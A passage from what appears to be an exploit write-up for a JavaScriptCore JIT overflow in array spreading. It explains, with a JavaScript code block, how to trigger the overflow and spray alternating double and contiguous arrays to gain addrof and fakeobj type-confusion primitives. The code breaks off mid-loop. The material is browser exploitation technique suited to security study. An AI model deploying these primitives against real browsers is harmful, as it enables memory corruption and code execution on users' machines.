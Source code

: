 After we spray these arrays, they will be overwritten with the data from `badArray`. This will however, prevent   a seg fault after we write out of bounds. To get a corruptible array, we can allocate three more arrays, an ArrayWithDouble, followed by an ArrayWithContiguous, followed by an ArrayWithDouble. Once we corrupt the array, we can write an object into the ArrayWithContiguous and read it form the ArrayWithDouble to create a type confusion and read an address. Additionally, we can write an address into the second ArrayWithDouble and read it from the ArrayWithContiguous to get a fake object at a specified address.

Implementing this we get:

```
function jitMe(array, reInitAllocator){                                                                                            
  for(let i = 0; i < 0x4000; i++){
    let x = 1 + 1
  }
  return [...array, ...array, ...array, ...array, ...array, ...array, ...array, ...array, ...array, ...array, ...array, ...array, ...array, ...array, ...array, ...array, ...reInitAllocator]
}

print("[+] JIT compiling the vulnerable function ")
let dummy = [1.1]
for(let i = 0; i < 85; i++){
  jitMe(dummy, dummy);
}

dummy = 0

let a = []

let len = 0x20000010 / 0x10

print("[+] Making array to trigger the overflow")
for(let i = 0; i < len; i++){
  a[i] = -3.7206620809969885e-103;
}

let b = [];
b.length = 1;

let sprayedArrays = []
let arrayWithDouble = []
let arrayWithContiguous = []

print("[+] Making arrays to prevent slow path")
// this array can only contain doubles
for(let i = 0; i < 0x10; i++){
  arrayWithDouble[i] = 2.0286158381253047e-252
}

// this array can contain doubles and objects
for(let i = 0; i < 0x10; i++){
  arrayWithContiguous[i] = {}
}

b.__defineGetter__(0, () => {
  for(let i = 0; i < 0x8000; i++){
    // we alternate arrays so that when we read out of bounds we can place the desired object directly after it in memory
    if(i % 2 == 0){
      // We use slice to make a copy this replaces new Array(0x10) and will reinitalize the allocator
      sprayedArrays[i] = arrayWithDouble.slice();
    }else{
      sprayedArrays[i] = arrayWithContiguous.slice();
```